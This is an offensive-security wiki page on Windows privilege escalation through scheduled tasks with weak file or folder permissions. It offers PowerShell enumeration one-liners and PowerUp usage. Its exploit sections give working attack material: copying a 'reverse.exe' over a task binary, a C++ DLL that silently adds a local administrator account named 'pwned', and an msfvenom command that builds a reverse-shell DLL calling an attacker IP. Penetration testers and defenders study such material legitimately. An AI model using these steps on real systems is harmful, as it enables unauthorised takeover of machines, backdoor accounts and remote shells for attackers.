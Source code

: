 # Weak File/Folder Permissions

## Theory

If we discover a Task that run with SYSTEM or highest privileges than our current user, the Task can be triggered, and If we have write permissions over the folder or the file (i.e binary or script) used by this task, then we can use it to escalate our privileges.

## Practice

### Task File Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a task's file (binary or scripts), swapping it with our own binary enables us to gain code execution as the user configured to run this task.

To identify weaknesses in task file permissions, we can take the following steps: retrieve a complete list of all task binary files, retrieve their permissions, identify interesting permissions referring our controlled user.

#### LOLBAS

We may use the following PowerShell command to make this enumeration

```powershell
Get-ScheduledTask | ForEach-Object { $taskAction = $_.Actions.Execute; if ($taskAction -and (Test-Path $taskAction -ErrorAction SilentlyContinue)) { $taskName = $_.URI; $taskAction; Get-Acl -LiteralPath $taskAction -ErrorAction SilentlyContinue | Select-Object @{Name='TaskName';Expression={$taskName}}, AccessToString, Owner } }|fl
```

If we find an interesting ACL over a task binary, before replacing it, we want to check the task's trigger and RunAs user.

```powershell
# Check RunAs and Trigger
schtasks.exe /TN <TASK_NAME> /V /FO LIST
```

#### PowerUp

Alternatively, we can use `Get-ModifiableScheduledTaskFile` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```powershell
. .\PowerUp.ps1
Get-ModifiableScheduledTaskFile
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable task file, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary/script
copy /y "c:\Program Files\File Permissions Task\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary/script
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Task\filepermservice.exe"
```

We can now wait for the task to be triggered, or trigger it ourselves if we can.
{% endtab %}
{% endtabs %}

### Task DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on Scheduled Tasks. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the Task folder from wich a binary is executed, we can write our DLL in, and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive task folders by using the following PowerShell command

```powershell
Get-ScheduledTask | ForEach-Object { $taskAction = $_.Actions.Execute; if ($taskAction -and (Test-Path $taskAction -ErrorAction SilentlyContinue)) { $folderPath = Split-Path -Path $taskAction -Parent; $taskName = $_.TaskPath; $folderPath; Get-Acl -LiteralPath $folderPath -ErrorAction SilentlyContinue | Select-Object @{Name='TaskName';Expression={$taskName}}, AccessToString, Owner } } |fl
```

If we find a writable task folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the your\_service\_name.exe with the found binary you found):

<figure><img src="../../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.dll "C:\Program Files\Folder Permissions Task\hijackme.dll"
```

We can now wait for the task to be triggered, or trigger it ourselves if we can.
{% endtab %}
{% endtabs %}
